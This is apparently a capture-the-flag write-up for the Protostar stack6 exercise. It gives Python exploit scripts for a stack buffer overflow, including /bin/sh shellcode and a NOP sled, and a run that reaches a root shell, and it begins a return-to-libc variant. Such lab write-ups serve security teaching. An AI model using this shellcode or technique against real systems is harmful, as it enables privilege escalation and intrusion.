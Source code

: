 
```python
buffer = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
ret    = "\x00\x00\x00\xbf"
print buffer + ret
```

```bash
user@protostar:/tmp$ python stack6.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT�
user@protostar:/tmp$ python stack6.py | /opt/protostar/bin/stack6
input path please: bzzzt (0xbf000000)
```

Modified to return to the return address itself bypassing the `0xbf000000` check and added padding for extra size required `0000`
```python
import struct
padding = "0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack("I", 0xbffff7d0+30)
ret = struct.pack("I", 0x080484f9)
nop = '\x90'*100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding + ret + eip + nop + payload
```

With this, the exploit executes:
```
user@protostar:/tmp$ (python stack6.py;cat) | /opt/protostar/bin/stack6
input path please: got path 0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO��QQQQRRRRSSSS����������������������������������������������������������������������������������������������������������1�Ph//shh/bin����°
                                                                                                  ̀1�@̀
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
pwd
/tmp
```

Another Solution - lib2c /bin/sh:
```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

We have lib2c loaded into the program:
```bash
0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
```

Here we also have `/bin/sh` as an available system call:
```
user@protostar:/tmp$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```
